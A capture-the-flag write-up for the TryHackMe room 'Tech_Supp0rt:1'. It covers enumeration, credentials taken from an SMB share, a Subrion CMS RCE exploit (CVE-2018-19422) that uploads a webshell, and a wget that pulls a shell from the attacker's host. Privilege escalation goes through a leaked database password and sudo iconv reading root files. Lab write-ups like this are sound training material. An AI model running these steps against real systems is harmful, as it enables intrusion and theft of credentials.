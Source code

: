```yaml
---
layout: default
title: Tech_Support:1
description: THM - Tech_Supp0rt:1
---
```


## Enumeration

Fired up nmap and gobuster.

```
Nmap scan report for <IP>
Host is up (0.067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
```
/wordpress       (Status: 301) [Size: 316]
/test            (Status: 301) [Size: 311]
/server-status   (Status: 403) [Size: 277]
```
### SMB Enumeration:
```
 Disk                            Permissions
----                             -----------
print$                            NO ACCESS
websvr                            READ ONLY
IPC$                              NO ACCESS
```
Before checking out the web pages, I'll access the “websvr” share and see if there's anything juicy inside.

```
smbclient -N //<IP>/websvr

smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5693200 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```

Now this is interesting. We found Subrion credentials. I'll throw them into Cyberchef and see what pops up.

![CyberChef](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/1.png)

We now have the Subrion CMS admin credentials. Let's look around on the website.

first I tried accessing “/subrion”, but then, when it wasn't working, I went backwards, and noticed the entry in “enter.txt”, which states that “/subrion”
doesn't work, and to use the panel. So i tried the next best thing. “/subrion/panel”.
And what do you know! It worked!

![Subrion Panel](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/2.png)

Now, this CMS gracefully provided us with the version, so it won't hurt looking for a CVE, right ?
Bingo!
CVE-2018-19422-SubrionCMS-RCE

Let's try logging in with the credentials we gathered, because the exploit requires authentication.

(Meanwhile I also enumerated the wordpress site and found the user “support”. I'll save it, maybe it'll come in handy)

Aaaand we logged in:

![Subrion Dash](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/3.png)

## Exploitation

Let's try the RCE.

```
python3 SubrionRCE.py -u http://<IP>/subrion/panel/ -l admin -p [REDACTED]
[+] Trying to connect to: http://<IP>/subrion/panel/
[+] Success!
[+] Got CSRF token: [REDACTED]
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: mwfyhhiowaujnqk

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://<IP>/subrion/panel/uploads/mwfyhhiowaujnqk.phar

$ whoami
www-data
```
I then uploaded another shell, because this one is a bit fucky, and upgraded using a python TTY
```
$ wget http://10.18.116.220:8000/shell.php

$ ls
mwfyhhiowaujnqk.phar
shell.php
zrqcdnixvfcwxop.phar

$ php shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/$
```
We cd into the /opt directory, empty.
Cd into the /home directory, there's the scamsite directory with the “enter.txt” file we found earlier.

So i'll start looking for SUID binaries, since we don't have sudo permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
No luck there, so we start snooping around. You can check default locations, or you can use linpeas.
I opted for linpeas.
```
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
```
And what do you know, it found a pasword for the user “support”. I'll try to ssh into the machine using the “scamsite” user that we found, and this password.
Aaand it worked.

Let's see what we can do from this user. First of all, I'm gonna ssh into the machine for a more stable shell.

## Privilege Escalation:
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
scamsite may use iconv to read files. We could use it to read and crack the /etc/shadow file, or the id_rsa from the root folder. But that's not necessary for proof of completion, so we'll just read "/root/root.txt"
```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```
And we got the flag!

![Flag](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/4.png)

Good hunting o7
[Try it out yourself!](https://tryhackme.com/room/techsupp0rt1)

[back](./)
